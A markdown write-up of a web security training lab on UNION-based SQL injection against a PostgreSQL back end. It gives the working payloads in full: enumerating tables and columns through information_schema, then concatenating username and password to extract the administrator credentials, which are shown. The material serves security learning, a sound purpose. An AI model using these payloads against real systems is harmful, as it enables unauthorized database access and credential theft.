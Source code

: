 # Non-Oracle databases listing contents
#DATABASEENUM 
#UNION 
#WRITEUP 

Follow the [[Methodology UNION attacks]]

## 1. Number of columns of result set

![[SQLInjection/Attacks/Enumerating the database/labs/SQL injection attack, listing the database contents on non-Oracle databases/images/columns.png]]
There are two columns on the result set.

## 2. Columns that can hold string data

Both columns can hold string data.

![[string.png]]

## 3. Exploitation

### List tables

Select the `TABLE_NAME` column from `information_schema.tables`

![[all tables.png]]

The payload

```SQL
' UNION SELECT TABLE_NAME,NULL FROM information_schema.tables--
```

Then inspect the columns on the interesting tables.

### Listing columns of interesting tables

Inspect the tables for keywords like `password`

```SQL
SELECT COLUMN_NAME FROM information_schema.columns WHERE table_name = '$TABLE NAME$'
```
```SQL
' UNION SELECT COLUMN_NAME,NULL FROM information_schema.columns WHERE table_name = '$TABLE NAME$'--
```

## Enumerating all tables

I wrote a Python script to scrape the name of every table injecting the query to the `information_schema.tables` table on the page. Then I used those tables names to inject another query to look for interesting column names like `username` or `password`. Finally the script outputs the tables that contained columns with those keywords.

![[Server-Side Vulnerabilities/SQLInjection/Attacks/Enumerating the database/labs/SQL injection attack, listing the database contents on non-Oracle databases/images/script.png]]

	Note: Another option would be to extract the tables names only and use Burp's Intruder to do the job and apply a filter for the same keywords.

The script is available [here](https://github.com/JoseDRamirezM/InfoSec/blob/main/Web%20Security%20Academy/SQL%20injection/Attacks/Enumerating%20the%20database/labs/SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20non-Oracle%20databases/exploit.py)

![[interesting tables.png]]

Now look inspect the columns of the output tables for the `administrator` credentials. From here I'll go manual.

Using the following payload obtain the columns of the tables.

#SQLiPAYLOAD 
```SQL
' UNION SELECT COLUMN_NAME,NULL FROM information_schema.columns WHERE table_name = 'users_ebehna'--
```
	Note that the name of the user's table and columns changes on each instance.

![[login table.png]]

Then extract the information from the database.

## Database type and version

![[db type.png]]

The database is `PostgreSQL 12.10` I did this mostly to extract both columns in one go.

Using the following payload, the `administrator` credentials are obtained.

#SQLiPAYLOAD 
```SQL
' UNION SELECT username_rbclpr||'~'||password_yxrmhn,NULL FROM users_ebehna--
```

![[SQLInjection/Attacks/Enumerating the database/labs/SQL injection attack, listing the database contents on non-Oracle databases/images/admin creds.png]]

`administrator~azqo1iz26c2ivxoy99kl`

Now login as administrator and the lab is solved!
